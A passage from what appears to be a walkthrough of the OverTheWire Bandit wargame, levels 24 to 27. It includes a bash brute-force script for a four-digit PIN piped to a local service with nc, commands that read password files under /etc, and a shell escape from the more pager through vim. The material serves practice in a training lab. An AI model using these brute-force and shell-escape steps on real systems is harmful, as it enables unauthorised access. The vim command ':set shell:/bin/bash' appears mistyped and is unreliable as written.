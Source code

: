 ```shell
cat password.txt
```

### Level 25

```shell
vi script.sh
```

code for script.sh:

```shell
#!/bin/bash

for i in {0..9}
do
    for j in {0..9}
    do
        for k in {0..9} 
        do
            for l in {0..9}
            do
                echo $(cat /etc/bandit_pass/bandit24) $i$j$k$l >> brut.txt
            done
        done
    done
done
```

then, run:

```shell
bash script.sh; cat brut.txt | nc localhost 30002 > key.txt; cat key.txt | tail
```

### Level 26

amazing level

```shell
cat /etc/passwd | grep bandit26; cat /usr/bin/showtext; ssh -i bandit26.sshkey bandit26@localhost
```

make sure you decrease the size of the terminal so that the `more` command doesn't executed completely

type v to access vim, then type,

```shell
:e /etc/bandit_pass
```

copy password, then type `:set shell:/bin/bash` and `:shell`

### Level 27

```shell
./bandit27-do cat /etc/bandit_pass/bandit27
```
